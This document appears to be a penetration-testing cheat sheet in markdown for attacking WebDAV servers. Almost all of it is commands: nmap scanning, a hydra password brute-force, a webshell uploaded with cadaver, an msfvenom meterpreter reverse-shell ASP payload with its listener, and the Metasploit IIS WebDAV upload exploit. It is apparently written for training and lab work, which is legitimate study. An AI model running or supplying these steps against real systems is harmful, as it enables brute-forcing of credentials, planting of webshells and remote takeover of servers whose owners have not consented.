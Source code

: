 # HTTP

## WebDAV
- WebDAV typically runs on Apache on MS IIS.
  - Manage files on remote Web server.
  - Requires credentials.

- "DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable."

- "cadaver is a command-line WebDAV client, with support for file upload, download..."

```
nmap -Pn -sV -p80 --script=http-webdav-scan,http-enum <ip>
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> http-get /webdav
```

```
curl http://<ip>/webdav/ -u <username>:<password>
```

```
davtest -url http://<ip>/webdav -auth <username>:<password>
```

```
cadaver http://<ip>/webdav
Username: <username>
Password: <password>

dav:/webdav/> help
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
==> A webshell is a shell that you can access through the Web. It is NOT a reverse shell.

http://<ip>/webdav/webshell.asp
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > reverse.asp

use /multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
exploit

http://<ip>/webdav/reverse.asp
```

```
use auxiliary/scanner/http/webdav_scanner

use exploit/windows/iis/iis_webdav_upload_asp
set payload windows/meterpreter/reverse_tcp
set HttpUsername <username>
set HttpPassword <password>
set PATH /webdav/reverse.asp
```
